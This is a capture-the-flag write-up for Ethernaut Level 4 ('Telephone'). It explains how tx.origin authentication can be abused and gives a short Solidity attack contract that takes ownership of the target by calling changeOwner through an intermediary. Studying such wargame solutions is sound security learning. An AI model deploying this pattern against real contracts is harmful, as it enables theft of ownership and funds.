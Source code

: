 <div align="center">

<img src="../assets/levels/4-telephone.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 4 - Telephone</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/4-telephone-requirements.webp" width="800px"/>

## The hack

This is a simple one, but exposes the player to an important attact vector - "tx.origin" phishing
Writeup on phishing attacks: https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks

## Solution

Write another contract that calls the deployed Telephone contract and passes in the new owner address

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone public telephone;

    constructor(address _telephoneAddress) {
        telephone = Telephone(_telephoneAddress);
    }

    function callChangeOwner() public {
        telephone.changeOwner(msg.sender);
    }
}
```

## Takeaway

- Usage of tx.origin should be done with care, it can lead to phishing attacks, useful in certain cases where you want EOA accounts to call a function for example

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
